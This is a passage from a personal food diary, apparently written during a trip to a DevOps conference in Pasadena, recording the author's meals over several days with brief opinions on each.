I had the Pastrami Sandwich

It was very good, and filling, too. At $14, it was a bit pricy though.
The next place I went to, dinner (Thursday 3/6/25), was an Italian place, Bucca di Bepppo.
This place was a family restaurant, so all the portions were sized for multiple people. I shared Lasagna, Chicken Parmesan, garlic sticks, and Gorgonzola salad with 11 other people.
Overall, it was excellent.
Day 2:
For breakfast, it was again a cream cheese bagel and an apple danish.
For lunch, the Pasadena Convention center provided food as part of the DevopsDay LA open spaces. It was pretty good too, and it was free.

I also got some of Tony’s dark chocolate from the Arm booth:
It was pretty good, 70% dark. It was hard to break pieces off so I could eat or share them though. I only ate half off it, and threw the rest away, it was a really big bar and I couldn’t eat all of it.
For dinner I had an extra one of the sandwiches mentioned above, which a friend had given to me and I saved it so I could eat it later.
Day 3:
For lunch, I went to the food place they had in the exhibition hall. I had a chicken sandwich, and fries, and it was actually pretty good. Here’s a picture:

For dinner, I went to El Cholo. I also forgot to take a picture, but I talked a ton with the Nix people. It was also pretty good.
Day 4:
For lunch, I had the same chicken sandwich I had yesterday. For dinner, I had sweet and sour chicken at Gmo’s, the Cal State Northridge campus eatery.